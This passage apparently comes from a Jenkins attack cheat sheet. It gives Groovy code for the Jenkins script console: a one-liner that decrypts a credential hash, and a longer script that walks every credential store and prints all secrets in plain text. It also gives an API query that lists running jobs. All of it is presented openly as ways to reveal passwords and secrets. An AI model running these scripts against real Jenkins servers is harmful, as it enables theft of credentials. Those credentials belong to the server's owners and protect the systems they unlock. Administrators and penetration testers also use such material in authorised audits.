 ### Reveal passwords

Execute in https://*INSTANCE*/script to reveal passwords from a password hash (obtained via Inspect Element on a Credential)

```groovy
hudson.util.Secret.decrypt('secret_hash')
```

### Jenkins current jobs

https://*INSTANCE*/computer/api/json?tree=computer[executors[currentExecutable[*]]]

### Reveal all secrets

Execute in https://*INSTANCE*/script to reveal all secrets
```groovy
import com.cloudbees.plugins.credentials.CredentialsProvider
import com.cloudbees.plugins.credentials.Credentials
import com.cloudbees.plugins.credentials.domains.Domain
import jenkins.model.Jenkins
def indent = { String text, int indentationCount ->
  def replacement = "\t" * indentationCount
  text.replaceAll("(?m)^", replacement)
}
Jenkins.get().allItems().collectMany{ CredentialsProvider.lookupStores(it).toList()}.unique().forEach { store ->
  Map<Domain, List<Credentials>> domainCreds = [:]
  store.domains.each { domainCreds.put(it, store.getCredentials(it))}
  if (domainCreds.collectMany{ it.value}.empty) {
    return
  }
  def shortenedClassName = store.getClass().name.substring(store.getClass().name.lastIndexOf(".") + 1)
  println "Credentials for store context: ${store.contextDisplayName}, of type $shortenedClassName"
  domainCreds.forEach { domain , creds ->
    println indent("Domain: ${domain.name}", 1)
    creds.each { cred ->
      cred.properties.each { prop, val ->
        println indent("$prop = \"$val\"", 2)
      }
      println indent("-----------------------", 2)
    }
  }
}
```
